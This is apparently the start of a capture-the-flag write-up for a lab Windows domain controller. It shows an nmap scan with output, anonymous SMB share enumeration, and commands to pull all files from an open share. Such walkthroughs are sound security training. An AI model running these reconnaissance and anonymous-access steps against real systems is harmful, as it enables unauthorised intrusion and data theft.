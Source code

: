 
└─$ nmap -sC -sV -Pn 10.10.11.152 -oN initial.nmap

    # Nmap 7.92 scan initiated Wed Apr 27 10:30:54 2022 as: nmap -sC -sV -Pn -oN initial.nmap 10.10.11.152
    Nmap scan report for 10.10.11.152
    Host is up (0.019s latency).
    Not shown: 989 filtered tcp ports (no-response)
    PORT     STATE SERVICE           VERSION
    53/tcp   open  domain            Simple DNS Plus
    88/tcp   open  kerberos-sec      Microsoft Windows Kerberos (server time: 2022-04-27 22:31:05Z)
    135/tcp  open  msrpc             Microsoft Windows RPC
    139/tcp  open  netbios-ssn       Microsoft Windows netbios-ssn
    389/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
    445/tcp  open  microsoft-ds?
    464/tcp  open  kpasswd5?
    593/tcp  open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
    636/tcp  open  ldapssl?
    3268/tcp open  ldap              Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
    3269/tcp open  globalcatLDAPssl?
    Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

    Host script results:
    |_clock-skew: 7h59m59s
    | smb2-security-mode: 
    |   3.1.1: 
    |_    Message signing enabled and required
    | smb2-time: 
    |   date: 2022-04-27T22:31:13
    |_  start_date: N/A

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Wed Apr 27 10:31:49 2022 -- 1 IP address (1 host up) scanned in 55.41 seconds

smbclient -L //10.10.11.152 -N

      Sharename       Type      Comment
      ---------       ----      -------
      ADMIN$          Disk      Remote Admin
      C$              Disk      Default share
      IPC$            IPC       Remote IPC
      NETLOGON        Disk      Logon server share 
      Shares          Disk      
      SYSVOL          Disk      Logon server share 
    Reconnecting with SMB1 for workgroup listing.
    do_connect: Connection to 10.10.11.152 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
    Unable to connect with SMB1 -- no workgroup available

Connect to `Shares` folder
`└─$ smbclient \\\\10.10.11.152\\Shares -N`

Once you are in, `mget` all the files in Shares folder. Use `prompt` to get rid of the yes/no confirmation. 

    smb: \> help prompt
    HELP prompt:
      toggle prompting for filenames for mget and mput

